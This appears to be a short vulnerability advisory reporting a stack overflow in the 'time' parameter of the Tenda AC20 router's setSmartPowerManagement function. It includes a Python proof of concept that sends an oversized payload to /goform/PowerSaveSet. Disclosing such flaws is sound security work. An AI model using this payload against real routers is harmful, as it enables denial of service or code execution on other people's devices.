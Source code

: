 Tenda AC20 V16.03.08.05 has a stack overflow vulnerability that arises from the time parameter in the setSmartPowerManagement function not checking the length of the input data. An attacker could exploit this vulnerability to execute arbitrary code or cause a denial-of-service attack.

<img width="416" height="335" alt="image" src="https://github.com/user-attachments/assets/730f1d21-3405-490b-964b-b56ffc5876e2" />



POC：
```
from pwn import *
import requests

payload = b'a'*0x1000

url = "http://192.168.100.254/goform/PowerSaveSet"

cookie = {"Cookie":"password=12345"}
data = {"time": payload}
response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)
print(response.text)
```
